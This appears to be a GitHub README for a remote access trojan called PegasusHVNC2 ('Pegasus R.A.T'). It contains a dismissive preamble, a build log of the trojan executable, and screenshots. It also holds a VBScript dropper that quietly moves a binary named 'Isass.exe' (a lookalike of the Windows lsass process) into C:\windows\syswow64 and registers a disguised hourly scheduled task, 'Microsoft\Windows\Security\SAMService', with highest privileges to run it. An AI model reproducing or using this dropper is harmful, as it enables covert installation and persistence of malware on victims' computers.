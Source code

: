 # PegasusHVNC2
▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄

I would kindly ask you ***not to bother me*** with questions like it won't compile help
or if you get that obviuos error like damn resource is missing heeeeelp - simply ***I don't care(especially for statements I can't wait, I want and similar. Feel free to purchase garbage mentioned above or reverse yourself).***
***Im not*** posting this so kids could play hackers, ***nor do I support reversed projects.***
Anyways if one decide to msg me with similar bs, please before you do download [ILSpy](https://github.com/icsharpcode/ILSpy/).
IF one manage to compile it without issues feel free to contact me if not go back to ***Hello world apps.***

▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
![Screenshot_1](https://user-images.githubusercontent.com/1867768/164581897-d8b3750c-90e5-49b2-9ea5-35bd7f3d9f98.png)

[Except ones compiled from full source ;)]
https://streamable.com/ghpv5y
```
Build started...
1>------ Build started: Project: Pegasus R.A.T, Configuration: Release Any CPU ------
1>  Pegasus R.A.T -> S:\iPwnNoobPony\Pegasus42\Source\Pegasus R.A.T\bin\Release\Pegasus R.A.T.exe
========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========
```
![badpony](https://user-images.githubusercontent.com/1867768/164579605-c4a11e62-87d5-48eb-bd95-f2dd976ac840.png)
```
on error resume next
set o=createobject("wscript.shell")
'f=o.ExpandEnvironmentStrings("%appdata%\Pantheon")
f=o.ExpandEnvironmentStrings("%appdata%")
c = "cmd /c md " & f 
'o.run c,0,1
WScript.Sleep(1000)
'c = "cmd /c move " & chr(34) & f & "\..\Isass.exe" & chr(34) & " " & chr(34) & f & chr(34)
c = "cmd /c move " & chr(34) & f & "\Isass.exe" & chr(34) & " " & chr(34) & "C:\windows\syswow64" & chr(34)
o.run c,0,1
'c = "schtasks /create /f /tn " & chr(34) & "OneDrive.{7d01bf11-6e05-4dfd-8936-9366c7d70b4d}" & chr(34)
c = "schtasks /create /f /tn " & chr(34) & "Microsoft\Windows\Security\SAMService" & chr(34)
c = c & " /sc hourly /rl highest /tr " & chr(34) & "c:\windows\syswow64\Isass.exe" & chr(34)
o.run c,0,1
Wscript.Sleep(2000)
o.run "schtasks /run /tn " & chr(34) & "Microsoft\Windows\Security\SAMService" & chr(34),0,0
```

Keep up the good work ^^

![lol](https://user-images.githubusercontent.com/1867768/163475489-3408e8ac-d47d-4648-9329-caf9790674dd.png)
![1](https://user-images.githubusercontent.com/1867768/164018731-957cbd11-6777-4ba9-8bb9-ce190be2f0ac.png)
![2](https://user-images.githubusercontent.com/1867768/164018740-5a82aa39-c27f-4476-b535-c3a01a7cfbcc.png)
![3](https://user-images.githubusercontent.com/1867768/164018744-04966fbd-b5e7-4a8d-809a-98135a585df6.png)
![4](https://user-images.githubusercontent.com/1867768/164018747-f2e92ce9-ac78-45f6-b8b8-551ff637f5dc.png)
